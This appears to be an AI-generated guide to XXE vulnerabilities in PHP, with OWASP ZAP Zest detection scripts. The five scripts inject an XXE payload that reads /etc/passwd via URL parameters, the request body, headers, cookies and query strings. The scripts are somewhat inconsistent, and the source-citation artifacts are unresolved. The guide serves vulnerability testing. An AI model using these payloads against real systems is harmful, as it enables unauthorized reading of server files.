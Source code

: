 # Improper Restriction of XML External Entity Reference (CWE-611) in PHP

###### Improper Restriction of XML External Entity Reference (XXE) Vulnerabilities

**Understanding XXE Vulnerabilities:**
XML External Entity (XXE) vulnerabilities occur when an application processes XML input and allows the inclusion of external entities. These entities can reference resources such as files on the server, HTTP requests to remote systems, and other sensitive data. XXE vulnerabilities can lead to serious implications, including:

- **Unauthorized File Access:** Attackers can access sensitive files like `/etc/passwd` or `/etc/shadow`.
- **Denial of Service (DoS):** By referencing resources like `/dev/random`, the service can be overwhelmed.
- **Remote Code Execution:** Potentially executing malicious code on the server.
- **Server-Side Request Forgery (SSRF):** Causing the server to interact with unintended remote resources【4:6†source】【4:7†source】【4:8†source】【4:9†source】.

**Common Injection Points in PHP Applications:**
XXE vulnerabilities can be introduced in various parts of PHP applications where XML parsing occurs, such as:

- **URL Parameters**
- **HTTP Request Bodies**
- **HTTP Headers**
- **Cookies**
- **Query Strings**

**Indicators of Success:**
To detect an XXE vulnerability, look for specific indicators in HTTP responses, such as:

- Error messages indicating failed entity resolution.
- Presence of sensitive data in the XML response.
- Status codes such as `200 OK` when sensitive information is retrieved.

### Creating OWASP ZAP Zest Scripts for Detecting XXE Vulnerability

Here are detailed steps to create Zest scripts targeting each injection point:

1. **URL Parameters XXE Attack:**

```json
{
  "title": "XXE URL Parameter Test",
  "description": "Testing XXE via URL parameters",
  "prefix": "http://example.com",
  "statements": [
    {
      "url": "http://example.com/service?param=<?xml version=\"1.0\" encoding=\"ISO-8859-1\"?><!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM \"file:///etc/passwd\">]><foo>&xxe;</foo>",
      "method": "GET",
      "headers": [],
      "data": "",
      "assertions": [
        {
          "rootExpression": {
            "regex": "root:x",
            "variableName": "response.body",
            "not": false,
            "elementType": "ZestExpressionRegex"
          },
          "elementType": "ZestAssertion"
        }
      ],
      "elementType": "ZestRequest"
    }
  ],
  "elementType": "ZestScript"
}
```

2. **HTTP Request Body XXE Attack:**

```json
{
  "title": "XXE HTTP Body Test",
  "description": "Testing XXE via HTTP request body",
  "prefix": "http://example.com",
  "statements": [
    {
      "url": "http://example.com/service",
      "method": "POST",
      "headers": "Content-Type: application/xml",
      "data": "<?xml version=\"1.0\" encoding=\"ISO-8859-1\"?><!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM \"file:///etc/passwd\">]><foo>&xxe;</foo>",
      "assertions": [
        {
          "rootExpression": {
            "regex": "root:x",
            "variableName": "response.body",
            "not": false,
            "elementType": "ZestExpressionRegex"
          },
          "elementType": "ZestAssertion"
        }
      ],
      "elementType": "ZestRequest"
    }
  ],
  "elementType": "ZestScript"
}
```

3. **HTTP Headers XXE Attack:**

```json
{
  "title": "XXE HTTP Header Test",
  "description": "Testing XXE via HTTP headers",
  "prefix": "http://example.com",
  "statements": [
    {
      "url": "http://example.com/service",
      "method": "GET",
      "headers": "Custom-Header: <?xml version=\"1.0\" encoding=\"ISO-8859-1\"?><!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM \"file:///etc/passwd\">]><foo>&xxe;</foo>",
      "assertions": [
        {
          "rootExpression": {
            "regex": "root:x",
            "variableName": "response.body",
            "not": false,
            "elementType": "ZestExpressionRegex"
          },
          "elementType": "ZestAssertion"
        }
      ],
      "elementType": "ZestRequest"
    }
  ],
  "elementType": "ZestScript"
}
```

4. **Cookies XXE Attack:**

```json
{
  "title": "XXE Cookie Test",
  "description": "Testing XXE via cookies",
  "prefix": "http://example.com",
  "statements": [
    {
      "url": "http://example.com/service",
      "method": "GET",
      "headers": "Cookie: session_id=<?xml version=\"1.0\" encoding=\"ISO-8859-1\"?><!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM \"file:///etc/passwd\">]><foo>&xxe;</foo>",
      "assertions": [
        {
          "rootExpression": {
            "regex": "root:x",
            "variableName": "response.body",
            "not": false,
            "elementType": "ZestExpressionRegex"
          },
          "elementType": "ZestAssertion"
        }
      ],
      "elementType": "ZestRequest"
    }
  ],
  "elementType": "ZestScript"
}
```

5. **Query Strings XXE Attack:**

```json
{
  "title": "XXE Query String Test",
  "description": "Testing XXE via query strings",
  "prefix": "http://example.com",
  "statements": [
    {
      "url": "http://example.com/service?param=<?xml version=\"1.0\" encoding=\"ISO-8859-1\"?><!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM \"file:///etc/passwd\">]><foo>&xxe;</foo>",
      "method": "GET",
      "assertions": [
        {
          "rootExpression": {
            "regex": "root:x",
            "variableName": "response.body",
            "not": false,
            "elementType": "ZestExpressionRegex"
          },
          "elementType": "ZestAssertion"
        }
      ],
      "elementType": "ZestRequest"
    }
  ],
  "elementType": "ZestScript"
}
```

**Explanation of Zest Components:**

- **ZestRequest:** Defines the HTTP request details, including the URL, HTTP method, headers, and request body.
- **ZestExpressionRegex:** Checks the response for a specific regular expression, here looking for "root:x" to indicate the system file `/etc/passwd` was accessed.
- **ZestAssertion:** Used to validate if the response contains the expected data, indicating the attack's success.

By targeting these different injection points, the scripts comprehensively test for XXE vulnerabilities with minimized false positives and false negatives【4:0†source】【4:1†source】【4:3†source】【4:5†source】. This approach ensures thorough coverage in detecting XXE risks within PHP applications.